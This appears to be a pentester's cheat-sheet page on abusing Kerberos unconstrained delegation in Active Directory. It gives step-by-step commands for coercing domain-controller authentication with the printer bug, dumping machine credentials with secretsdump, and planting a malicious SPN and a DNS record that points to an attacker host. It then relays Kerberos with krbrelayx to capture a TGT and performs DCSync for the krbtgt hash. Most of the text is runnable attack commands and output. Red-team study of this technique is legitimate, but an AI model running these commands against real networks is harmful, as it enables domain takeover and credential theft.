 # Kerberos Unconstrained Delegation

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)
* [https://ardent101.github.io/posts/kerberos_delegation/](https://ardent101.github.io/posts/kerberos_delegation/)

Enumerate:

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```




## Monitor for TGTs

Coerce authentication from a DC while monitoring for TGTs in the background on the owned unconstrained delegation system:

```
Cmd > .\Rubeus.exe monitor /targetuser:DC01$ /interval:5 /nowrap /runfor:60 [/registry:SOFTWARE\MONITOR] [/consoleoutfile:C:\Windows\Temp\monitor.txt]
Cmd > .\SpoolSample.exe dc01.megacorp.local srv01.megacorp.local
```

Use [ticket_converter](https://github.com/eloypgz/ticket_converter) or [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert the TGT from `.kirbi` to `.ccache` (usable with impacket):

```
$ python ticket_converter.py dc01.kirbi dc01.ccache
$ KRB5CCNAME=`pwd`/dc01.ccache ...
```

If output goes to the `/registry`:

```
PS > Get-ChildItem HKLM:\SOFTWARE\MONITOR\
PS > Get-ItemProperty HKLM:\SOFTWARE\MONITOR\DC01$@MEGACORP.LOCAL
PS > Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force
```




## "Relaying" Kerberos

* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)

{% embed url="https://snovvcrash.github.io/2021/05/21/calculating-kerberos-keys.html" caption="A Note on Calculating Kerberos Keys for AD Accounts" %}

{% file src="/.gitbook/assets/From Zero Credential to Full Domain Compromise (Haboob Team).pdf" %}



### Printer Bug + DCSync

Requirements:

* Owned computer account with unconstrained delegation enabled (SRV01).
* Printer bug on a domain controller (DC01).
* Permissions to add an SPN for the owned computer account and a new DNS record in AD.

1\. Grab owned computer account password to calculate its Kerberos AES key. This is done automatically when extracting the password remotely with `secretsdump.py`, or it will be done later by `krbrelayx.py` when providing it the password in hex from local `secretsdump.py` output:

```
 # Remotely
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@SRV01.megacorp.local -ts
...
MEGACORP\SRV01$:aes256-cts-hmac-sha1-96:00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

 # Locally
Cmd > reg.exe save hklm\system system.hive
Cmd > reg.exe save hklm\security security.hive
$ secretsdump.py -system system.hive -security security.hive LOCAL
...
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:<PLAIN_PASSWORD_HEX>
```

2\. Add a malicious SPN for the owned computer account with unconstrained delegation:

```
 # Check (no modifications)
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -q DC01.megacorp.local
 # Adding servicePrincipalName that doesn't match full hostname or samAccountName will fail
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local
 # But modifying msDS-AdditionalDnsHostName will succeed
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local --additional
```

3\. Add a DNS record pointing to the attacker's host:

```
$ python dnstool.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action add DC01.megacorp.local
```

4\. Check that the record was added successfully (\~ 3 minutes):

```
$ nslookup evil.megacorp.local <DC01_IP>
Server:		192.168.1.11
Address:	192.168.1.11#53

Name:	evil.megacorp.local
Address: 10.10.13.37
```

5\. Start `krbrelayx.py` providing AES key of the owned computer account or its plain password in hex with salt:

```
 # In case secretsdump.py was used remotely
$ sudo python krbrelayx.py -aesKey 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
 # In case secretsdump.py was used locally
$ sudo python krbrelayx.py --krbhexpass <PLAIN_PASSWORD_HEX> --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local
```

6\. Coerce the authentication to attacker's host from DC01 by triggering printer bug:

```
$ python printerbug.py megacorp.local/'SRV01$'@DC01.megacorp.local -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 evil.megacorp.local
```

7\. Export extracted TGT and perform DCSync to get krbtgt hash (or any other privileged account hash):

```
$ export KRB5CCNAME=`pwd`/'DC01$@MEGACORP.LOCAL_krbtgt@MEGACORP.LOCAL.ccache'
$ secretsdump.py DC01.megacorp.local -dc-ip <DC01_IP> -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

8\. Cleanup. Delete SPN and DNS record:

```
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -r DC01.megacorp.local --additional
$ python dnstool.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action remove DC01.megacorp.local
 # Check if the SPN was deleted successfully
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'SRV01$' --hash fc525c9683e8fe067095ba2ddc971889 -m computers --attrs servicePrincipalName | grep SRV01
```

Other scenarios:

* In [this](https://exploit.ph/user-constrained-delegation.html) blogpost it is described how to perform the attack by abusing a **service** (user) account with unconstrained delegation enabled.
* In [this](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) blogpost it is described how to perform the attack from Windows by extracting TGT with Inveigh.
